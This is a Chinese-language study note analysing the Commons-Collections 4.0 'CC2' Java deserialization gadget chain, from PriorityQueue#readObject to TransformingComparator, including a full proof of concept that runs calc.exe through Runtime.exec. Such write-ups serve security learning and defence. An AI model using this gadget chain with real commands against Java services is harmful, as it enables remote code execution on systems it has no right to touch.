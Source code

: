 - [CC2链](#cc2链)
  - [PriorityQueue](#priorityqueue)
    - [PriorityQueue#readObject](#priorityqueuereadobject)
    - [PriorityQueue#heapify](#priorityqueueheapify)
    - [PriorityQueue#siftDown](#priorityqueuesiftdown)
    - [PriorityQueue#siftDownUsingComparator](#priorityqueuesiftdownusingcomparator)
  - [TransformingComparator#compare](#transformingcomparatorcompare)
  - [POC构造](#poc构造)
  - [调用流程图](#调用流程图)
  - [commons-collections 4.1](#commons-collections-41)
# CC2链
条件:  
* commons-collections 4.0
## PriorityQueue
### PriorityQueue#readObject
PriorityQueue类是一个优先队列数据结构,其实现序列化接口并重写了readObject()如下  
![](2021-12-27-22-21-28.png)  
其中`queue`属性定义如下
![](2021-12-27-22-23-29.png)  
这两个属性被`transient`修饰,本不会被反序列化,但在其重写的`readObject`中还是手动的反序列化了`queue`.
```java
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();
```
在最后还调用了`heapify`方法.
### PriorityQueue#heapify
`heapify`方法如下
![](2021-12-27-22-28-07.png)
其中当size大于2时会进入`siftDown`方法中
### PriorityQueue#siftDown
![](2021-12-27-22-37-24.png)  
在`siftDown`中根据`comparator`的有无会进入不同的流程.
### PriorityQueue#siftDownUsingComparator
而在`siftDownUsingComparator`分支中存在这么一处调用`comparator.compare(x, (E) c)`.
![](2021-12-27-22-38-59.png)  
其调用了`comparator`对象的`compare`方法,而`comparator`在其构造函数中设置如下.
![](2021-12-27-22-52-55.png)  
## TransformingComparator#compare
在commons-collections中有一个实现了序列化接口和Comparator的类为`TransformingComparator`,其`compare`方法如下  
![](2021-12-27-22-41-17.png)  
其中调用了`this.transformer.transform`,也就是说当我们指定this.transformer为CC1中`transform`类即可进入`transform`利用链.  
而`this.transformer`属性在其构造函数中设置.
![](2021-12-27-22-43-02.png)  
## POC构造
首先创建一个`PriorityQueue`对象,其要满足以下几个条件才能正常执行readObject()
* size > 2,利用`PriorityQueue`提供的add方法来添加两个元素.
* comparator要先为空,不然在添加第二个元素时会调用`his.decorated.compare(value1, value2)`,而`ProcessImpl`因为没有实现`Comparable`从而导致序列化时失败,所以需要利用反射在添加完元素后再设置`comparator`的值.

首先生成`transform`利用链,与CC1一样.
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
```
完整POC:
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);
        Field comparator = queue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(queue, transformingComparator);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```
调用栈如下:
![](2021-12-27-23-13-03.png)  
## 调用流程图 
![](2021-12-27-23-17-03.png)  
## commons-collections 4.1
commons-collections 4.0之后直接修改了`InvokerTransformer`类,其取消了之前实现的`Serializable`接口,导致序列化失败.
而在commons-collections 4.0之前`PriorityQueue`类还没有实现`Serializable`接口,导致无法利用.